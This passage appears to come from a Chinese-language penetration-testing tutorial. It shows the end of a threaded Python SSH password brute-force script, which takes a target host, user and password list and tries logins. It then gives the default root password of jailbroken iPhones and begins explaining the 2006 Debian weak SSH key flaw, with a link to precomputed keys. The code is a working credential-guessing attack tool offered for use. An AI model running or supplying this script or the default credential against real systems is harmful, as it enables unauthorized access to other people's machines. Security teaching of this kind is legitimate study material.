 ```python
            fails += 1
            time.sleep(5)
            connect(host, user, password, False)
        elif "synchronize with original prompt" in str(e):
            time.sleep(1)
            connect(host, user, password, False)
    finally:
        if release:
            connection_lock.release()

def main():
    parser = optparse.OptionParser("usage %prog -H <target host> -u <user> -F <password list>")
    parser.add_option("-H", dest="target_host", type=str, help="specifiy target host")
    parser.add_option("-F", dest="password_file", type=str, help="specifiy password file")
    parser.add_option("-u", dest="user", type=str, help="specifiy the user")

    options, args = parser.parse_args()
    target_host = options.target_host
    password_file = options.password_file
    user = options.user

    if target_host is None or password_file is None or user is None:
        print(parser.usage)
        exit(-1)

    with open(password_file, "r") as f:
        for line in f.readlines():
            if found:
                print("[*] Exiing: Password Found")
                exit(0)
            if fails > 5:
                print("[!] Exiting: Too Many Socket Timeouts")
                exit(-1)
            connection_lock.acquire()
            password = line.strip("\r\n")
            print("[-] Testing: {}".format(password))
            t = threading.Thread(target=connect, args=(host, user, password, True))
            child = t.start()

if __name__ == "__main__":
    main()
```

iPhone 设备上 root 用户的默认密码为：`alpine`，当设备越狱后，用户会在 iPhone 上启用一个 OpenSSH 服务

### 利用 SSH 中的弱私钥

对于 SSH 服务器，密码验证并不是唯一的手段。除此之外，SSH 还能使用公钥加密的方式进行验证。在使用这一验证方法时，服务器和用户分别掌握公钥和私钥。使用 RSA 或是 RSA 算法，服务器能生成用于 SSH 登录的密钥。

不过，2006 年 Debian Linux 发行版中发生了一件有意思的事。软件自动分析工具发现了一行已被开发人员注释掉的代码。这行被注释掉的代码用来确保创建 SSH 密钥的信息量足够大。被注释掉之后，密钥空间的大小的熵值降低到只有 15 位大小。此时可能的密钥只有 32767 个。Rapid7 的 CSO 和 HD Moore 在两个小时内生成了所有的 1024 位和 2048 位算法的可能的密钥。而且，把结果放在了[网上](http://digitaloffense.net/tools/debianopenssl/)中，大家都可以下载使用。
